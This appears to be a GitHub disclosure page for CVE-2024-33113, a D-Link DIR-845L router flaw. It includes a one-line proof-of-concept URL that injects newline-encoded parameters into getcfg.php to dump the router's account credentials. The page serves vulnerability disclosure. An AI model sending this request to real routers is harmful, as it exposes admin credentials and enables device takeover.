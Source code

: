 # CVE-2024-33113
D-LINK DIR-845L is vulnerable to information disclosure via the bsc_sms_inbox.php file.

CVE-2024-33113 is a vulnerability in the D-LINK DIR-845L router that allows information disclosure through the bsc_sms_inbox.php file. The vulnerability arises from improper handling of the include() function, which can be exploited by manipulating the $file variable. This allows attackers to include arbitrary PHP scripts and potentially retrieve sensitive information such as the router's username and password.

# PoC

```
http://IP:8080/getcfg.php?a=%0A_POST_SERVICES=DEVICE.ACCOUNT%0AAUTHORIZED_GROUP=1
```

![image](https://github.com/FaLLenSKiLL1/CVE-2024-33113/assets/43922662/680cc948-116d-4a89-8b89-8521c2ca3804)
